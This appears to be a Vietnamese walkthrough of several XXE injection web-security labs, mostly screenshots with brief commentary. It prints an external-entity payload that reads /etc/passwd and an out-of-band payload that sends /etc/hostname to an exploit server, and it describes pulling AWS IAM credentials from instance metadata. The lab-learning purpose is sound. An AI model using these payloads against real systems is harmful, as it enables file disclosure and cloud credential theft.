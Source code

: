 ![image](https://github.com/user-attachments/assets/fec71b7a-2c45-415e-bc58-6dcd860f9253)

Trong web có cái check stock dùng xml:

![image](https://github.com/user-attachments/assets/5d8bf9eb-857a-497a-8764-918e770534d9)

![image](https://github.com/user-attachments/assets/4befdeb1-bce8-42c9-9264-2c95f21b5e93)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lmao [ <!ENTITY lmao1 SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&lmao1;
</productId><storeId>2</storeId></stockCheck>
```

Tạo 1 cái ENTITY mở file /etc/passwd

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/3d647ea7-d282-493b-adf2-35668ea33d5c)

![image](https://github.com/user-attachments/assets/c865df3e-c259-4da1-9b57-01d8b7942010)

Lần này làm giống bài cũ nhưng không có được

![image](https://github.com/user-attachments/assets/eea7330a-df34-40ad-83f6-c94ce3f10446)

Tôi tra mạng thì ra được cái này [Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html):

![image](https://github.com/user-attachments/assets/50eb2ec6-2623-483c-ae7f-d10fb2c9a0bd)

Và tôi thêm cái latest/meta-data/iam/security-credentials/admin vào sau, nó ra:

![image](https://github.com/user-attachments/assets/7b1516ac-44b1-4709-b5a8-0f014b380a74)

Xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/754be58c-4156-43b5-9d8c-4e6c26ebeb6f)

Đây là req check stock:

![image](https://github.com/user-attachments/assets/27831c9a-8d98-4212-b0b0-ce016e6e3502)

Tôi thử cái payload cũ thì không có được:

![image](https://github.com/user-attachments/assets/763c56ac-10ff-4a1d-b06b-bbff6673efec)

Tôi thử thay bằng cái link burp collaborator vào:

![image](https://github.com/user-attachments/assets/7d700cd7-60c0-4126-a3bd-68c69c17cc46)

![image](https://github.com/user-attachments/assets/04319aa1-4a6b-4fde-b37d-92d3d547b3ee)

Và nó có gửi req tới, xong

![image](https://github.com/user-attachments/assets/538c6c88-7493-4097-9389-4af04c03d7f5)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/369a2da2-7c6c-4b0c-87d6-fba9b3b676cd)

Lần này thì bài không cho tôi dùng cái payload cũ nữa:

![image](https://github.com/user-attachments/assets/29a4a0b4-de77-41f1-a90d-64e8a47adb16)

Có cái này không cần phải gọi hẳn ra trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection):

![image](https://github.com/user-attachments/assets/4d71462f-9c22-462d-98e4-0d5269a441f4)

![image](https://github.com/user-attachments/assets/49e81264-d9cf-4dcc-9302-1e478b4e3ed9)

Mặc dù nó nhìn ra lỗi nhưng bên collaborator vẫn có req được gửi tới:

![image](https://github.com/user-attachments/assets/1b1454bd-61fa-4015-8bbd-9ca672a93bbe)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/e4528b8e-ab5f-42bd-b40d-8917ba9ee1e0)

Vẫn là cái req đấy:

![image](https://github.com/user-attachments/assets/7abfc6fd-4193-48b7-bee4-7793b9ea7ad4)

Vẫn là payload cũ và nó vẫn được:

![image](https://github.com/user-attachments/assets/3cabee7b-743e-4618-aece-2a78da12c9b6)

![image](https://github.com/user-attachments/assets/98f51724-33db-4bbe-ba5d-ff321fae1999)

Ở đây tôi tạo 1 thực thể trỏ đến link của server exploit và chạy cái này:

![image](https://github.com/user-attachments/assets/cd1899b1-00a4-424e-8e73-481be6147024)

```
<!ENTITY % hostnamefile SYSTEM "file:///etc/hostname">
<!ENTITY % lmao1 "<!ENTITY &#x25; lmao2 SYSTEM 'https://exploit-0aec009d04696226814e60da01de004c.exploit-server.net/exploit/?x=%hostnamefile;'>">
%lmao1;
%lmao2;
```
Thì cái này sẽ mở file /etc/hostname và gán vào param exploit của link server exploit, giờ thì vào access log là có nội dung của file đấy:

![image](https://github.com/user-attachments/assets/d8580921-f74a-4a2e-b01d-1b6dab2b7525)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/9da47469-ce51-4e82-9bdb-0cac0459a7de)

Vẫn như bài lab cũ, vẫn là check stock:

![image](https://github.com/user-attachments/assets/4f343042-1aa6-45f2-98c6-f565f386f6a0)

Lần này thì nhìn có dài dài hơn nhưng vẫn gửi được req đến burp collaborator:

![image](https://github.com/user-attachments/assets/88f6f8e9-94a7-4716-b8c3-2b003dc7c6a0)

![image](https://github.com/user-attachments/assets/e3c30854-2325-4132-a498-ac5cd082eafa)

Đổi từ burp collaborator sang link của server exploit và trong server exploit thì để body là cái này:

![image](https://github.com/user-attachments/assets/c84e4d56-928c-4eac-999f-bb2dbdd8b5e6)

Và cuối cùng gửi req là xong:

![image](https://github.com/user-attachments/assets/471678c0-1cd7-446f-ae0c-84492506231d)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/8208ead7-fa4c-494a-a0e7-21c34d149257)

Lần này thì cái check stock không có ở dạng xml

![image](https://github.com/user-attachments/assets/b829cf30-e952-4879-aca6-ffdb0c8d7190)

Thử sửa sang xml mà vẫn không thấy được:

![image](https://github.com/user-attachments/assets/e8220178-44bb-4d32-8811-281aaea9fed2)

Nhưng khi tôi chèn 1 cái entity vào thì nó hiện ra "Entities are not allowed for security reasons", điều này có nghĩa là nó có xml ở cái param đó:

![image](https://github.com/user-attachments/assets/1dda301b-995b-4c35-ad96-14356b409a5d)

Đề có nhắc tới cái XInclude thì XInclude (XML Inclusions) là một cơ chế cho phép nhúng hoặc hợp nhất nội dung từ tài liệu bên ngoài vào trong một tài liệu XML. Nó được định nghĩa bởi W3C và sử dụng namespace, tôi lấy cái payload ở trên [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection):

![image](https://github.com/user-attachments/assets/8960ae73-90e4-408d-8b47-d5d3bcfc84f2)

![image](https://github.com/user-attachments/assets/9d361032-8287-43fd-b0c7-bb1cac32a27e)

<h1>---------------------------------------------------------</h1>
<br>









































































